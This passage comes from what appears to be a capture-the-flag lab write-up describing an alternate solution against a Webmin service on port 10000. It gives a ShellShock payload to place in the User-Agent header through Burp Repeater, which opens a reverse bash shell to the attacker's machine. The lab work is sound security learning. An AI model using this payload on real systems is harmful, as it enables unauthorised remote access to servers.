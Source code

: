 For this solution, we don’t have to escalate privileges since we’re already root.

## Solution \#3 <a id="d238"></a>

This solution involves attacking port 10000.

First, visit the webmin application.

![](../images/max/672/1*oCpETnw1MCmo6XcOBTgaZQ.png)

Then intercept the request in Burp and send it to Repeater. Change the User Agent field to the following string.

```text
() { :;}; bash -i >& /dev/tcp/10.10.14.12/4444 0>&1
```

What that does is it exploits the ShellShock vulnerability and sends a reverse shell back to our attack machine. If you’re not familiar with ShellShock, the following [image](http://www.fantaghost.com/exploiting-shellshock-getting-reverse-shell) explains it really well.

![](../images/max/1040/1*MEtlJTZNx7OzBnFdxk2Jsw.png)
